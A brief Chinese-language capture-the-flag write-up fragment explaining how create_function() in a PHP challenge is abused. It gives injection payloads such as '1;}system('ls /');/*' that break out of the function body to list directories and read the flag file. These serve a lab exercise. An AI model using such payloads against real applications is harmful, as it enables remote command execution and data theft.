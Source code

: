 ```php
```

本题中

```
我们要post传入一个

create_function()

$shaw('',$root);
题目就变成了
create_function('', $root)

get传入来查询目录，}用来闭合前面的函数
1;}system('ls /');/*
```

![image-20240130135238377](image/image-20240130135238377.png)

然后post传参不变，构建get命令读取flag

```
1;}system('more /f*');/*
```

得到flag
